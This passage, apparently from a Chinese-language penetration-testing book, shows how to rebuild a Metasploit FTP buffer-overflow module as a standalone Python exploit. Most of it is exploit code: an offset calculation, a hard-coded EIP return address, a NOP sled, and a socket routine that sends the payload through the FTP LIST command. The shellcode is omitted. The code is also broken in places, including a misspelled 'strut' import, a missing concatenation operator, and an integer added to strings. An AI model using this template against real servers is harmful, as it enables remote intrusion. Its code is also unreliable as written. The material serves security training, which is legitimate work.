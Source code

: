 设置偏移量可能因模块而异，您可能需要进行额外的数学运算来获得正确的值。因此，始终查看实际的漏洞利用代码，如下所示：

![逆向 Metasploit 模块](img/B04315_08_52.jpg)

我们看到偏移量的长度减去了 IP 地址的大小。这创建了一个更新的偏移值。

```py
offset = 228 - len(lhost)
```

我们可以看到生成了随机文本的垃圾数据。因此，我们可以以类似的方式生成我们的 NOPs。

```py
nop = "\x90" *16
```

接下来，我们需要创建注入漏洞代码的操作顺序。

```py
exploit = offset + eip + nop + shell
```

如您所见，使用前面章节中的知识一切都非常简单。最后一个组件是设置处理程序与 FTP 服务进行交互。

```py
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((rhost, rport))
print(client.recv(1024))
client.send("USER " + username + "\r\n")
print(client.recv(1024))
client.send("PASS "password + "\r\n")
print(client.recv(1024))
print("[*] Sending exploit")
client.send("LIST" + exploit + "\r\n")
print(client.recv(1024))
client.close()
```

最终结果是一个可以测试并运行在实际服务器上的 Python 漏洞利用。这为测试提供了一个很好的起点。如果发现 Metasploit 模块不完美，将其逆向创建一个独立的模块，可以帮助您排除可能的问题。

请记住，漏洞利用有一个可靠性评级系统。如果漏洞利用的可靠性评级较低，意味着它可能无法始终产生期望的结果。这为您提供了尝试改进实际 Metasploit 模块并为社区做出贡献的机会。例如，这个漏洞利用的评级是低的；考虑测试并尝试改进它。

```py
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.172"
rport = 21
password = "badpassword@hacku.com"
username = "anonymous"
eip = struct.pack('<I',0x10028283)
offset = 228 - len(lhost)
nop  = "\x90" *16
shell =() #Shellcode was not inserted to save space
exploit = offset + eip + nop + shell
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((rhost, rport))
```